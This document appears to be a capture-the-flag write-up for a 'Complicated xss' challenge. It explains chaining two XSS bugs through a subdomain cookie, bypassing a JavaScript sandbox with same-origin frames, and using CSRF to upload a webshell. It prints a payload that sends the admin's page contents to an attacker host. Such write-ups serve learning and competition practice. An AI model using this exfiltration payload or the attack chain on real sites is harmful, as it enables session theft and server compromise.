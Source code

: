 <h1>Complicated xss</h1>
<p>http://government.vip/</p>
<p>flag is at: http://admin.government.vip:8000</p>
<code>
//sandbox
delete window.Function;
delete window.eval;
delete window.alert;
delete window.XMLHttpRequest;
delete window.Proxy;
delete window.Image;
delete window.postMessage;
</code>

<h3>Step 1: solve md5 'captcha'</h3>
<p>
generate md5_dic using md5_gen.py
sort md5_dic using:
<code>sort md5_dic > md5_sort</code>
binary search in md5_search.py

<h3>Step 2: upload js on the fly</h3>
<p>Check poc.py
<code>
python poc.py   // will upload poc.js aotumatically
</code>
</p>

<h3>Step 3: Triage</h3>
<p>
xss spot1: poc.js will be executed by admin;
xss spot2: admin.government.vip:8000/login DOM-based xss, which will output cookie.username;
In order to use admin's cookie to access admin.government.vip, we need to use xss-1 to trigger xss-2
Ref: In RFC 2109, a domain without a leading dot meant that it could not be used on subdomains, and only a leading dot (.mydomain.com) would allow it to be used across subdomains.
hence we set the cookie domain as: domain=.government.vip

But.. it has sandbox which forbid most useful functions;

Let's see what admin can see on that page first:
set poc.js to be:
<code>

document.cookie="username=<svg onload=location.href='http://myip/?'+escape(document.body.innerHTML)>; path=/; domain=.government.vip";
location.href='http://admin.government.vip:8000/login';

</code>

which told us that admin can see an upload page here;
So the goal is to CSRF the admin's post file, and get the response.
</p>

<h3>Step 4: Bypass sandbox</h3>
<p>
The subdomain http://admin.government.vip:8000/ had sandbox, which delete our favorite XMLHttpRequest, however http://admin.government.vip:8000/login still have that..
and according to same origin policy, http://admin.government.vip:8000/ can access functions in http://admin.government.vip:8000/login
To make that happen, we can create our own page and load those two as frames, check test.html

Last piece is to CSRF upload webshell and get the response back, check test.js, and poc.js 
</p>
